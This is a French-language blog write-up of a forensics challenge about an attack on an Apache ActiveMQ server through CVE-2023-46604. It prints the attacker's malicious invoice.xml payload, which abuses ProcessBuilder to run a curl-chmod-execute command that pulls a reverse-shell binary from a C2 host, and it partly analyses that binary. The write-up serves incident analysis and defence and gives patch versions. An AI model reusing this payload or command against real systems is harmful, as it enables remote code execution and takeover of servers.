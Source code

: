 ```yaml
---
title: "Apache ActiveMQ sous la Loupe : analyse d'une CVE"
date: 2024-01-22T22:08:20+02:00
draft: false
---
```


## En résumé

Le challenge consiste à enquêter sur un serveur public signalé par un analyste SOC de niveau 1. Ce serveur émet des connexions sortantes vers plusieurs adresses IP suspectes. L'objectif est d'analyser le dump réseau afin de comprendre ce qu'il s'est passé et la façon dont l'attaquant s'est introduit sur le serveur.

L'attaquant a exploité la [CVE-2023-46604](https://nvd.nist.gov/vuln/detail/CVE-2023-46604) notée 9.8 et publiée fin novembre 2023. Cette faille permet de manipuler la sérialisation des classes Java utilisées dans le protocole de communication [OpenWire](https://en.wikipedia.org/wiki/OpenWire_(binary_protocol)). Cela permet à l'attaquant d'instancier n'importe quelle classe pour exécuter du code distant. Le pirate utilise cette faille pour instancier une class [`ProcessBuilder`](https://docs.oracle.com/javase/8/docs/api/java/lang/ProcessBuilder.html) qui permet de lancer des processus sur le système d'exploitation de la machine. Grâce à cela, l'attaquant contacte son C2, télécharge un reverse shell, lui donne les droits d'exécution et l'exécute :

```bash
curl -s -o /tmp/docker http://<ip C2>/docker; chmod +x /tmp/docker; ./tmp/docker
```

L'attaquant dispose d'un exécutable sur le serveur web qui établi une connection avec lui. Cette vulnérabilité a été utilisée, notamment, pour déployer des cryptominers ou des rootkits. Les impacts sont variés mais dans le cadre d'un cryptominer les performances du système sont impactées, de même que la qualité de service ainsi qu'une usure du matériel prématurée. **Des patchs ont été déployés et les utilisateurs sont invités à mettre à jour leurs systèmes vers les versions 5.15.16, 5.16.7, 5.17.6 ou 5.18.3.** Plus d'information ici : [CVE-2023-46604 (Apache ActiveMQ) Exploited to Infect Systems With Cryptominers and Rootkits](https://www.trendmicro.com/en_us/research/23/k/cve-2023-46604-exploited-by-kinsing.html#:~:text=CVE%2D2023%2D46604%20\(Apache,Systems%20With%20Cryptominers%20and%20Rootkits).

Les investigations nous font remonter jusqu'au programme, que je tente de reverse. Les indices trouvés appuient l'hypothèse d'un reverse shell. On peut résumer les différentes étapes de l'attaque comme suit :

![L'attaquant envoie invoice.xml qui va exploiter la vulnérabilité de OpenWire. L'exploit télécharge le binaire docker qui permet à l'attaquant de prendre le contrôle de la machine.](/img/blog/activemq-cve/infection.png)

<figcaption>L'attaquant envoie invoice.xml qui va exploiter la vulnérabilité de OpenWire. L'exploit télécharge le binaire docker qui permet à l'attaquant de prendre le contrôle de la machine.</figcaption>

## Investigation

Ma méthode, lorsqu'il s'agit de dump réseau, est de commencer par une vue globale. Pour cela, j'utilise Network Miner : 

![Une vue d'ensemble des appareils présents sur le réseau.](/img/blog/activemq-cve/networkminer.png)

<figcaption>Une vue d'ensemble des appareils présents sur le réseau.</figcaption>

A première vue, rien ne semble particulièrement louche. Dans l'onglet `Files`, on observe deux fichiers `invoice.xml` : 

```xml
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg >
            <list>
                <!--value>open</value>
                <value>-a</value>
                <value>calculator</value -->
                <value>bash</value>
                <value>-c</value>
                <value>curl -s -o /tmp/docker http://<ip-C2>/docker; chmod +x /tmp/docker; ./tmp/docker</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```

La commande `curl` est manifestement malveillante : elle télécharge un exécutable `docker` depuis un serveur C2, le rend exécutable et l'exécute.

On trouve les traces de ces actions sur Wireshark. Dans ce cas, il n'y a pas beaucoup de traffic et peu d'IPs, cela nous facilite la tâche. On identifie l'adresse IP malveillante. Nous avons donc 2 IPs : 
- celle utilisée par l'attaquant pour envoyer l'exploit
- celle que l'exploit contacte (C2) pour télécharger le reverse shell

![Liste des paquets HTML échangés.](/img/blog/activemq-cve/wireshark.png)

<figcaption>Liste des paquets HTML échangés.</figcaption>

On voit bien ici le trafic réseau de l'attaquant qui envoie la vulnérabilité, cette dernière contacte le C2 et télécharge la charge finale.

## Quels sont les capacités de docker ?

On parle bien entendu du binaire Linux récupéré et non de l'outil de conteneurisation. Puisque ce fichier a été échangé via le réseau, on est en capacité de le récupérer.

Mes compétences en reverse sont limités. Cependant, le fichier étant très petit (250 octets), j'ai décidé de tenter le coup. On observe plusieurs `syscall` Linux : 

- `sys_mmap`
Il sert à créer un mappage entre une région de mémoire virtuelle d'un processus et une ressource physique ou un fichier. Utile pour mapper un fichier en mémoire, allouer de la mémoire ou créer une zone de mémoire partagée.

- `sys_socket`
Il permet de créer un point de communication, ou socket, pour communiquer avec un autre processus sur une machine distante.

- `sys_connect`
Utilisé avec le précédent, il permet d'établir une connection réseau.

- `sys_nanosleep`
Suspend l'exécution du programme.

- `sys_exit`
Termine l'exécution du programme.

La combinaison du syscall de création de socket et de connexion semble bien indiquer un reverse shell. De toute façon, avec 250 octets, le programme ne peut pas avoir de fonctionnalité très avancée. Cependant, il est curieux de constater qu'il n'y a pas d'appel système pour **recevoir** (recv) et exécuter la commande reçue.

Il y a également la présence d'une valeur codée en dur : `5C15BE92BB010002`.

- Hypothèse 1 : cette valeur est une clef de chiffrement/déchiffrement pour obfusquer des paramètres du programmes et chiffrer les communications avec le C2.

On peut écarter cette hypothèse car il n'y a pas d'autres chaînes de caractères et il ne semble pas y avoir de fonction de déchiffrement/décodage dans le programme.

- Hypothèse 2 : cette valeur contient les informations de connexions avec le C2 (IP + port + autre chose ?).

Cet "autre chose" pourrait être un identifiant de compromission. Utilisé parfois par les attaquants, un identifiant sert à identifier la victime afin de mieux les monitorer : gardons à l'esprit la volonté d'industrialisation dans ce type d'attaque. Cette hypothèse est plus plausible car ce paramètre est proche de l'appel à `sys_connect`.

![La mystérieuse chaîne de caractère ainsi que l'appel à sys_connect.<](/img/blog/activemq-cve/reverse.png)

<figcaption>La mystérieuse chaîne de caractère ainsi que l'appel à sys_connect.</figcaption>
